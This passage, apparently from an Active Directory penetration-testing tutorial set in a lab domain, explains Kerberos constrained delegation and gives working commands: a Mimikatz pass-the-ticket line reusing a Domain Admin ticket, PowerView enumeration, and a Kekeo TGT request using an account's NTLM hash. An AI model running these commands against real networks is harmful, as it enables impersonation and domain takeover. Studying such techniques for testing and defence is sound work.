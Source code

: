 4. The DA ticket could then be reused:
    
    ```powershell
    # Invoke-Mimikatz
    Invoke-Mimikatz -Command '"kerberos::ptt C:\Users\appadmin\Documents\user1\[0;2ceb8b3]-2-060a10000-Administrator@krbtgtCYBERLAB.CYBERCORP.LOCAL.kirbi"'
    ```
    

## Constrained Delegation

Constrained Delegation allows the first hop server (e.g web server) to request access only to specified services on specified computers. If the user is not using Kerberos authentication to authenticate to the first hop server, Windows offers *Protocol Transition* to transition the request to Kerberos.

To impersonate the user, **Service for User** (**S4U**) extension is used and it provides two extensions:

- **Service for User to Self** (**S4U2self**): Allows a service to obtain a forwardable TGS to itself on behalf of a user with just the user principal name without supplying a password. The service account must have the *TRUSTED_TO_AUTHENTICATE_FOR_DELEGATION* - T2A4D UserAccountControl attribute.
- **Service for User to Proxy** (**S4U2proxy**): Allows a service to obtain a TGS to a second service on behalf of a user. Which second service? This is controlled by *msDS-AllowedToDelegateTo* attribute. This attribute contains a list of SPNs to which the user tokens can be forwarded.

If you have compromised a user account or a computer (machine account) that has kerberos constrained delegation enabled, it’s possible to impersonate any domain user (including administrator) and authenticate to a service that the user account is trusted to delegate to.

Enumerate users and computers with constrained delegation enabled:

```powershell
# PowerView_dev
Get-DomainUser -TrustedToAuth
Get-DomainComputer -TrustedToAuth

# ActiveDirectory Module
Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties msDS-AllowedToDelegateTo
```

## Constrained delegation allowed for a User Account

1. To abuse constrained delegation in above scenario, we need to have access to the account for which the constrained delegation is enabled. If we have access to that account, it is possible to access the services listed in msDS-AllowedToDelegateTo of this account as ANY user.
2. Using *asktgt* from Kekeo, we request a TGT as the abused account. Either plaintext password or NTLM hash of the compromised account (with constrained delegation enabled) is required:
    
    ```
    # Kekeo
    kekeo# tgt::ask /user:WEBSVC /domain:cyberlab.cybercorp.local /rc4:[NTLM_HASH_USER_ENABLED_DELEGATION]
    ```
    